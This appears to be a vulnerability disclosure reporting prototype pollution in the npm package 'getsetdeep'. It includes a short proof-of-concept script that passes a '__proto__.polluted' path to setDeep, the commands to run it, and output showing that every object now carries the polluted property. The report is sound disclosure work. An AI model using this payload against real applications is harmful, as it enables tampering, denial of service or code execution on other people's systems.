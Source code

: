 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var getsetdeep = require("getsetdeep")
const obj = {}
console.log("Before : " + {}.polluted);
getsetdeep.setDeep(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i getsetdeep # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
``` 
